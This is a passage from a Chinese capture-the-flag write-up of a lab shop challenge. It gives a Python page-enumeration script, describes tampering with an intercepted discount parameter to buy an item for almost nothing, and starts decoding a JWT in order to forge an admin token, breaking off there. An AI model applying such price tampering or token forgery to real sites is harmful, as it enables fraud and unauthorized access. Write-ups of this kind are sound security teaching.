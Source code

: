 ```
import requests

for i in range(0,2000):
    url = 'http://5bb9c519-40a6-43b5-8d67-2255e7337900.node3.buuoj.cn/shop?page=%d' % (
        i)
    r = requests.get(url)
    if r.status_code == 200:
        if 'lv6.png' in r.text:
            print(i)
            break
    else:
        exit(429)
    print(i) 
```

*   找到后发现我们买不起。点击价格发现有20%的优惠，抓包可以发现有价格参数和折扣参数，我们修改折扣参数到很小就能购买。
    ![在这里插入图片描述](img/08ef15bf0bee5cbb529beb2c1e2dea8f.png)

*   把`discount`的值修改为0.00000001。发包购买成功，但提示页面只允许`admin`访问。接下来就是难点了。这里使用的[JWT验证](https://www.cnblogs.com/cjsblog/p/9277677.html)
    ![在这里插入图片描述](img/e377f7f33cde94a0d7083d62e01c2efb.png)

*   里面加密的内容就是我们的用户信息。服务器通过它来确认用户。我们希望伪造它为`admin`来通过验证。

    ```
    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjEifQ.8iYM4QgkAw4NpjpP8tEn7MBbZoF-Kj8YRbosz3Qrr-Q;
    根据它的结构拆分为3部分。

    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9     
    eyJ1c2VybmFtZSI6IjEifQ
    8iYM4QgkAw4NpjpP8tEn7MBbZoF-Kj8YRbosz3Qrr-Q; 
    ```

*   前两部分可`base64`解码，其中第二部分加上`==`可解
    ![在这里插入图片描述](img/c025f263e8fcd7350cd4d430106ddf2e.png)
